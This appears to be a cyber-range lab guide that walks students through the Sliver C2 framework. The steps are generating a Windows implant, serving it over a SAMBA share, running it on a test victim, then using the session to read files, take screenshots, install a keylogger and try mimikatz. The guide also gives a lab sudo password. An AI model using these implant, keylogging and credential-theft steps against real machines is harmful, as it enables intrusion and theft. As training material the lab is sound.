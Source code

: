# Sliver Botnet Instructions

## Accessing your Servers
You have 2 servers in your lab:
* **sliver-server**: Ubuntu server with the role of command and control of the botnet.
* **sliver-victim**: A test victim server used for installing implants.

>! **Warning:** When connecting to servers, it may be best to open this in an incognito browser to avoid caching the credentials used to connect. Only connect to one of the servers at a time, and then, only in incognito mode.

![image](https://user-images.githubusercontent.com/50633591/234986130-619d61f1-1a5b-47e7-9efa-555311ccb725.png)

### Start and Run Sliver
If promted for the sudo password, enter in `Let's workout!`
```
sudo systemctl start sliver
sudo sliver
```
You should then see a prompt similar to the one below:
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/4e87efc9-669f-4d72-b099-308bf03cd49b)

### Generating the Implant
Run the following command to generate the botnet malware. This will take a few minutes and when it completes a new executable with an arbitrary name will be saved in the student directory indicated.
```
generate --mtls 10.1.1.10 --os windows --arch amd64 --format exe
```
When you create your implants, move them to the `/srv/sliver` folder on the Sliver server and change the permissions to allow execution in the commands below. Make sure you exist the sliver prompt by typing in `exit`.
```
cp ./<RANDOM_NAME>.exe /srv/sliver/
sudo chmod 777 /srv/sliver/<RANDOM_NAME>.exe
```
The `cp` command means copy and it copies the executable you just created to a directory /srv/sliver. For the nerds out there, a SAMBA server is running on the Ubuntu system that allows Windows systems to navigate to the executable using network shares.

Now you'll want to start the Botnet server so it will listen for the victim to communicate back to it. Run the following:
```
sudo sliver
sliver > mtls
```
Sliver is now waiting for clients to communicate back with it.

### Open your Victim Machine
Then, the malware can be accessed by your Windows server, sliver-victim, by opening a file explorer and navigating to `\\10.1.1.10\sliver

![image](https://user-images.githubusercontent.com/50633591/234988380-81fc9370-148b-4c2c-a816-7b1b14ba47de

Double click to run the executable. Nothing will happen, but the C2 backchannel communication will be established.

### Use Botnet Server
Go to the sliver-server and you should see a line like this:
```
[*] Session 40ecf1dd ...
```
This lets you know that a C2 channel is open to the victim. You can use this channel by typing:
```
use 1 (replace '1' with the first character of your session ID)
```
You can also list the sessions by typing `sessions` and find the session ID of the victim PC.

You can run commands similar to the following:
```
sliver (RANDOM_NAME) > info             # This will show you information about the remote PC
sliver (RANDOM_NAME) > execute calc     # Open the calculator application on the desktop
sliver (RANDOM_NAME) > execute notepad  # Open the notepad application on the desktop
```
Some other interesting commands:
```
sliver (RANDOM_NAME) > cat /users/cyberarena/sample.txt   # dumps the contents of a text file
sliver (RANDOM_NAME) > screenshot                         # Generate a current screenshot. You can move this to the /srv/sliver directory to view it
```

### Sliver Armory
The Sliver armory 
```
sudo sliver                               # If you're not already in the console.
sliver > armory install raw-keylogger     # Install a keylogger extension
sliver > user 1                           # Replace with the session ID
sliver (RANDOM_NAME) > raw-keylogger 1    # Starts the remote keylogger. You can go to the victim machine and type into a notepad.
sliver (RANDOM_NAME) > raw-keylogger 2    # Captures the keylogger output.
```
> **Challenge:** There's a secret password on the victim. See if you can use mimikatz through the Armory to recover the password.


